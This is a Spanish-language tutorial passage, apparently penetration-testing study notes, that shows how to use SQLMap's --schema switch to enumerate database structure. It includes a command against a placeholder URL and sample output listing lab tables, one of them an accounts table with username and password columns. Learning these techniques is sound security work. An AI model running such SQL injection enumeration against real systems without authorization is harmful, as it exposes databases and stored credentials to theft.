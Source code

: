 Ahora que hemos cubierto los conceptos básicos de la enumeración de bases de datos con SQLMap, en esta sección abordaremos técnicas más avanzadas para enumerar datos de interés.

---

## DB Schema Enumeration

Si queremos recuperar la estructura de todas las tablas para tener una visión completa de la arquitectura de la base de datos, podemos usar el switch `--schema`:

```r
sqlmap -u "http://www.example.com/?id=1" --schema

...SNIP...
Database: master
Table: log
[3 columns]
+--------+--------------+
| Column | Type         |
+--------+--------------+
| date   | datetime     |
| agent  | varchar(512) |
| id     | int(11)      |
+--------+--------------+

Database: owasp10
Table: accounts
[4 columns]
+-------------+---------+
| Column      | Type    |
+-------------+---------+
| cid         | int(11) |
| mysignature | text    |
| password    | text    |
| username    | text    |
+-------------+---------+
...
Database: testdb
Table: data
[2 columns]
+---------+---------+
| Column  | Type    |
+---------+---------+
| content | blob    |
| id      | int(11) |
+---------+---------+

Database: testdb
Table: users
[3 columns]
+---------+---------------+
| Column  | Type          |
+---------+---------------+
| id      | int(11)       |
| name    | varchar(500)  |
| surname | varchar(1000) |
+---------+---------------+
```

---